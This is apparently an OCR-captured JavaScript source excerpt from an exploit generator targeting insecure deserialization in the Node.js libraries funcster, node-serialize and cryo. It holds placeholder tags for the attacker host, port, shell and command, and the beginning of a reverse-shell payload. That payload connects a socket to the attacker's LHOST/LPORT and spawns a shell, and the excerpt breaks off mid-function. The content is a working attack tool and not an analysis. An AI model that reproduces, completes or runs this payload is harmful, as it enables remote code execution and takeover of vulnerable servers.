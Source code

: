 ```js

// Deserialize function wrap
function deserialize(serializer, object) {
    if (serializer == "fstr") {
        return require('funcster').deepDeserialize(object);
    } else if (serializer == "ns") {
        return require('node-serialize').unserialize(object);
    } else if (argv.serializer == "cryo") {
        return require('cryo').parse(object);
    }
}

/* As dynamic commands couldn't be added during serialization,
*  these tags were applied to payload templates to allow dynamic
*  configuration 
*/
cmd_tag = /####COMMAND####/g;
lhost_tag = /####LHOST####/g;
lport_tag = /####LPORT####/g;
shell_tag = /####SHELL####/g;
sentinel_tag = /\/\/####SENTINEL####\s*}/g;
proto_tag=/function_prototype/g;

//BEGIN - Payload Template Generation
if (argv.vector == "rshell" && argv.serializer != "cryo") {
    if (typeof argv.lport == 'undefined' || typeof argv.lhost == 'undefined') {
        console.log("[-] RShell vector requires LHOST and LPORT to be specified");
        process.exit();
    }
    payload = {
        rce: function() {
            var net = require('net');
            var spawn = require('child_process').spawn;
            HOST = "####LHOST####";
            PORT = "####LPORT####";
            TIMEOUT = "5000";
            if (typeof String.prototype.contains === 'undefined') {
                String.prototype.contains = function(it) {
                    return this.indexOf(it) != -1;
                };
            }

            function c(HOST, PORT) {
                var client = new net.Socket();
                client.connect(PORT, HOST, function() {
                    var sh = spawn("####SHELL####", []);
                    client.write("Connected!");
